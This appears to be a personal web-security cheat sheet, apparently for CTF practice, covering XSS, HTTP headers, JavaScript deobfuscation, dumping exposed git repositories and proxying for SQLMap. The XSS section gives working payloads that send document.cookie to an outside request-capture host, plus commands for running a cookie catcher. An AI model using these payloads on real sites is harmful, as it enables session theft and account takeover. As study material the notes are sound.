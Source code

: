 ```yaml
---
title: web
date: 2018-05-04 18:17:18
---
```


## Cross Site Scripting / XSS
With cross-site scripting, you aim to steal session cookies of an admin or other important user. You can do this by posting JavaScript that redirects someone who visits the website to a website you own. Just send the cookie as a parameter in the GET request.

```html
1. No Filtering
<script>
location.href=("https://requestb.in/some_session?c="+document.cookie)
</script>

2. Image OnError
<img src="" onerror="location.href=('http://192.168.1.163?c=' + document.cookie)"></img>
```

https://requestb.in/ is a great website for easily capturing HTTP requests.
If you need specific response type, use https://httpbin.org/.
In the case that the server visiting your IP is network restricted or needs a specific HTTP response, you can set-up your own cookie catcher using cookie_catcher.py or as follows:
```
virtualenv -p python3 venv
source venv/bin/activate
pip install xss_catcher
xss_catcher
```

## HTTP Headers
These are some of the interesting HTTP headers and what they do. A full list can be found here: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers

Header | Purpose | Example
--- | --- | ---
X-Forwarded-For | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. Brute force WAF with [waf_bypass.py](waf_bypass.py) | X-Forwarded-For: 192.168.101.13
X-Remote-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-remote-IP: 192.168.101.13
X-Originating-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-originating-IP: 192.168.101.13
X-Client-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-Client-IP: 192.168.101.13
X-Remote-Addr | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-remote-Addr: 192.168.101.13
X-Forwarded-Host | Identifies the original host requested by the client in the HOST header. | X-Forwarded-Host: id42.example-cdn.com
Cookie | User cookies | Cookie: key1=value1; key2=value2;
Host | The website trying to be reached. Needed because the requested page may be different from the load balancer / root IP address. | Ex: cnn.com
Origin | Discloses where a fetch came from. Doesn't disclose the whole path. | Origin: https://developer.mozilla.org
Referer | Contains address of previous web page from which link to currently requested page was followed. | Referer: https://developer.mozilla.org/en-US/docs/Web/JavaScript
From | If a human creates a bot to scrape something, they should make the bot include a From header in its requests, containing the human's email. This way, a website owner can contact the human if the bot is destructive. | From: webmaster@example.org

## Deobfuscate JavaScript
Here is a handy website to deobfuscate JavScript code.
[https://baivong.github.io/de4js/](https://baivong.github.io/de4js/)

Remember, you can also set breakpoints in JS via Chrome's developer tools console.

## Pull Publicly Exposed Git Repository
Using this, you can dump a publicly exposed git repository from a website locally.
[https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)

## Proxy
Sometimes, you want to run a tool like SQLMap on a URL but the URL keeps changing due to some dynamic variables (like maybe the current time). You can use a proxy script to act as the web server, which translates a request into the dynamically generated URL, and set that proxy server to be the target of SQLMap.

Check out this simple Flask proxy server I made [here](proxy.py) where the URL depended on the time.
